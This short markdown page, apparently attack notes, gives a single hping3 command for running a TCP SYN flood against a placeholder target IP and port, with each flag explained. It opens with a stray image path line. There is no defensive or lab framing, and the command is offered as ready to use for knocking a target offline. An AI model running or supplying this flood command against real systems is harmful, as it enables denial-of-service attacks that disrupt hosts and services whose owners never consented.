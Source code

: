 # TCP SYN Flood - Command Execution

## Attack Command
Run the following command to execute the TCP SYN Flood attack:
*hping3 -S -p <target_port> --flood <target_ip>*
- `-S`: Sends SYN packets.
- `-p`: Specifies the target port.
- `--flood`: Sends packets as fast as possible.
- `<target_ip>`: Replace with the target's IP address.
